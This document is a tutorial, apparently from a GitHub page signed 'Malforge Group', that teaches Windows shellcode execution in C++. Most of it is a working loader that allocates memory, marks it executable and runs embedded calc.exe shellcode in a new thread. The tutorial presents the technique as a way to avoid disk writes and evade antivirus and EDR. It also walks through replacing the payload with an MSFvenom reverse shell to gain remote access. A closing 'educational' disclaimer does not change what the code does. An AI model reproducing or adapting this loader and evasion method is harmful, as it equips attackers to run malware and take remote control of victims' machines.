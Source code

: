 # Executing Shellcode with C++

## Introduction

Hello everyone, today I am going to teach you how to execute malicious shellcode with C++.

## Why Use Shellcode?

Shellcode is often used in scenarios where:

- **Stealth is critical** — It avoids writing to disk.
- **AV/EDR evasion** — Memory-resident payloads are harder to detect.
- **Precise control** over execution — You're writing and executing memory buffers directly.

![image](https://github.com/user-attachments/assets/86729f34-8ff9-4a2d-b637-7fb9dbb26312)

## 🧪 The Payload: `calc.exe`

We'll use a shellcode payload that spawns the calculator (`calc.exe`). This is commonly used as a proof-of-concept (PoC) for demonstrating shellcode execution.

---

## 🧾 Full C++ Code

```cpp
/*
  C++ implementation of a shellcode execution example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 0x41, 0x51,
  0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 0x65, 0x48, 0x8b, 0x52,
  0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72,
  0x50, 0x48, 0x0f, 0xb7, 0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x3c, 0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52, 0x20, 0x8b,
  0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 0x00, 0x00, 0x00, 0x48,
  0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44,
  0x8b, 0x40, 0x20, 0x49, 0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41,
  0x8b, 0x34, 0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 0x75, 0xf1,
  0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 0x75, 0xd8, 0x58, 0x44,
  0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44,
  0x8b, 0x40, 0x1c, 0x49, 0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01,
  0xd0, 0x41, 0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 0x58, 0x41,
  0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 0xff, 0xff, 0x5d, 0x48,
  0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d,
  0x01, 0x01, 0x00, 0x00, 0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5,
  0xbb, 0xf0, 0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 0xfb, 0xe0,
  0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 0x00, 0x59, 0x41, 0x89,
  0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

    // run payload
    th = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) my_payload_mem, 0, 0, 0);
    WaitForSingleObject(th, -1);
  }
  return 0;
}
```

## Proof of Concept (PoC)
To illustrate this technique, we can use a reverse shell payload created with MSFvenom in C format. Follow these steps:

Generate Shellcode: Use MSFvenom to create a reverse shell payload and format it as a C array.

![image](https://github.com/user-attachments/assets/85592f72-2ddc-4519-9cc3-08d74ce71fb4)

Insert Payload: Update the payload array in the code with the generated shellcode.

![image](https://github.com/user-attachments/assets/6b98ec6a-2354-4368-aa05-9a837c830605)

Compile and Run: Compile the C++ code into an executable (EXE) and run it to initiate the reverse shell.

![image](https://github.com/user-attachments/assets/94d3293c-b47c-4738-9fdf-df5b33aa8526)

![image](https://github.com/user-attachments/assets/4c2e683e-2659-4eff-ac64-034babac6d7c)

Upon running the EXE, the reverse shell connects, granting remote access to the system

![image](https://github.com/user-attachments/assets/087d4378-0658-4b46-80d2-f45b4203ab91)

![image](https://github.com/user-attachments/assets/a6e2233f-c24a-45d8-8c19-cee4358c0066)

## Conclusion

This guide covered how to execute shellcode in C++ and highlighted its stealth advantages. By running code in memory, shellcode can bypass many standard security measures. I hope this article was insightful and helped you understand shellcode execution.

> ⚠️ **Disclaimer:**  
> This code is for **educational purposes only**. Executing shellcode can be **highly dangerous** and may trigger antivirus alerts or cause system instability.  
> Do **not** run this code on production machines or without proper knowledge.  
> Always conduct experiments in **isolated environments** such as virtual machines or sandboxes.
---

Thank you for reading!

— **Malforge Group**
